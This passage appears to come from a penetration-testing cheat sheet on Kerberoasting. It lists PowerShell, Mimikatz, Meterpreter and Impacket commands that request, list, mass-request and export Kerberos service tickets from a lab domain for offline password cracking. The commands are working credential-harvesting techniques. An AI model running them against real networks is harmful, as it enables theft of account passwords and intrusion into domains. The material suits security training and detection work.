 #### Step 2 - Request Service Tickets

- Request is **sent to the KDC**, hence it's not required that service is accessible, available or even exit anymore.
- Request the service ticket for a specific SPN:
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80"
    ```
- Alternatively, use Mimikatz by specifing target as the service principal name:
    ```
    kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
    ```
- List all available cached tickets:
    ```
    klist
    ```
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::list"'
    ```
    ```
    load kiwi
    kerberos_ticket_list
    ```
    ```
    kiwi_cmd kerberos::list
    ```
- Request Kerberos service tickets that belong to domain users only which should be easier to cracked compared to computer accounts service tickets (requires valid domain credentials in order to interact with the Active Directory since it will executed from a system that is not part of a domain):
    ```powershell
    ./GetUserSPNs.py -request pentestlab.local/test
    ```
- Automatically identify weak service tickets based on user account and password expiry (RiskySPN: [https://github.com/cyberark/RiskySPN](https://github.com/cyberark/RiskySPN)):
    ```powershell
    Find-PotentiallyCrackableAccounts -FullData -Verbose
    ```
- All user accounts that have an associated SPN:
    ```powershell
    Find-PotentiallyCrackableAccounts -Domain "pentestlab.local"
    ```
- Export to CVS (offline cracking):
    ```powershell
    Export-PotentiallyCrackableAccounts
    ```
- Get service tickets for service instance by its SPN:
    ```powershell
    Get-TGSCipher -SPN "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80"
    ```
- Various functions that can be executed to request, list and export service tickets: [Auto-Kerberoast](https://github.com/xan7r/kerberoast)
    ```powershell
    List-UserSPNs
    List-UserSPNs -Domain "pentestlab.local"
    ```
- Mass request tickets (ticket for each account)
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    setspn.exe -T lab.local -Q */- | Select-String '^CN' -Content 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
    ./GetUserSPNs.ps1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName }